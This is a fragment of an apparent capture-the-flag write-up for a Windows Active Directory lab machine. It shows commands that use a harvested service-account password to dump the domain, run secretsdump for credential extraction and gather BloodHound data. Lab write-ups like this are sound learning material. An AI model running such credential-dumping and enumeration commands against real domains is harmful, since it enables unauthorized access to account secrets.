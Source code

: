 
Now with all the data we can figure that we have to retrive the password.

If you recall we have the note !!!
```
This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).
```

![[Pasted image 20240919031500.png]]

I think we have to recover from AD recycle bin the password let's take the help of google fu and chat gpt

```
ldapdomaindump ldaps://10.10.10.182 -u 'Cascade.local\ArkSvc' -p 'w3lc0meFr31nd'
```


```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```


```
bloodhound-python -d Cascade.local -u ArkSvc -p 'w3lc0meFr31nd' -ns 10.10.10.182  -c all
```
![[Pasted image 20240919033540.png]]

